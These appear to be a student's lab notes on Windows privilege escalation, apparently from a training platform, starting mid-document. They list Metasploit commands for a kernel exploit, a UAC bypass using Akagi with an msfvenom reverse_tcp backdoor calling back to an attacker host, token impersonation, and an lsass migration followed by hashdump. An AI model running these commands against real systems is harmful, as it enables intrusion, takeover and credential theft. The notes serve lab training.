                 `cd C:\\\\ mkdir temp cd temp\\\\`
                
                `upload 41015.exe shell .\\41015.exe 7`
                
                Got system privilege :)
                
            - UAC Bypass
                
                - `nmap -sV -p 80 10.4.19.119`
                - Exploit rejetto
                - Got meterpreter
                - `getuid`
                - `pgrep explorer`
                - `migrate 2708`
                - `getprivs`
                - `shell`
                - `net user`
                - `net localgroup administrators`
                - Access denied
                - Use UACMe Akagmi already present on the attack machine
                - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe`
                - `use multi/handler`
                - `set payload windows/meterpreter/reverse_tcp`
                - `set LHOST 10.10.4.2`
                - `set LPORT 1234`
                - `run`
                - Go to old meterpreter session
                - `cd C:\\\\`
                - `mkdir Temp`
                - `cd Temp`
                - `upload /root/backdoor.exe`
                - `upload /root/Desktop/tools/UACME/Akagi64.exe`
                - `Akagi64.exe 23 C:\\Temp\\backdoor.exe` - run both
                - Now run getprivs
                - Got privilege escalation
                - Migrate to a `NT AUTHORITY\\SYSTEM` service
                - ps -S lsass.exe
                - migrate 692
                - hashdump
            - Access Token Impersonation
                
                - `nmap -sV -p 80 10.4.22.75`
                - exploit rejetto
                - got meterpreter session
                - `pgrep explorer`
                - `getuid`
                - `load incognito`
                - `list_tokens -u`
                - `impersonate_token "ATTACKDEFENSE\\Administrator”`
                - `prgerp explorer`
                - `getprivs`
                - `list_tokens -u`
                - `impersonate_token "NT AUTHORITY\\SYSTEM”`
                - `cd C:\\\\Users\\\\Administrator\\\\Desktop\\\\` - flag
            